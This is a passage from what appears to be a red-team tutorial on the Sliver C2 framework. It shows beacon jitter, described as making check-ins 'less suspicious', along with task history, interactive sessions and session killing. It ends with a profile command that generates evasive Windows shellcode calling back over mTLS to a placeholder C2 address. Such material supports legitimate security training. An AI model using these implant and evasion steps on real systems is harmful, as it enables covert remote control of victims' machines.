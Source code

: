 ![Alt text](/assets/images/posts/c2/6.png){: .align-center}

- As we did a Beacon instead of a Session, the beacon will check every now and then.
- Sliver also has **Jitter**, which will make the checks a little irregular so will be less suspicious

To interact:
```
use <beacon ID>
#beacons rm = to delete beacons
#beacons -k <ID or -K = to kill beacons
```

![Alt text](/assets/images/posts/c2/7.png){: .align-center}



You'll notice that it will take a time to SLIVER get the result because of the check in time

![Alt text](/assets/images/posts/c2/8.png){: .align-center}


To show commands executed before:
```
tasks

tasks fetch <ID>
```

![Alt text](/assets/images/posts/c2/9.png){: .align-center}



## sessions

U can change from beacon to session, but not vice-versa:

```
interactive
use <ID>
```

```
sessions

sessions -K = to kill all sessions
sessions -k = (lowercase) to kill specific sessions
```

![Alt text](/assets/images/posts/c2/10.png){: .align-center}



## PROFILES
Save Profile:
```
profiles new beacon --arch amd64 --os windows --mtls <C2 IP>:443 -f shellcode --evasion --timeout 300 --seconds 5 --jitter 1 profile_name
```
